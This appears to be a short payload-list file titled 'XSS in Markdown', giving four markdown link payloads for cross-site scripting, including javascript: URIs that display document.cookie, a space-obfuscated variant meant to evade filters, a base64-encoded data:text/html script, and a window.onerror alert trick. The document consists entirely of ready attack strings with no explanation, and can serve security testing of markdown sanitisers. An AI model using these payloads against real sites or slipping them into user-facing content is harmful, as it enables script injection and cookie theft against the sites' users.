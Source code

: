 # XSS in Markdown

- `[a](javascript:prompt(document.cookie))`
- `[a](j a v a s c r i p t:prompt(document.cookie))`
- `[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)`
- `[a](javascript:window.onerror=alert;throw%201)`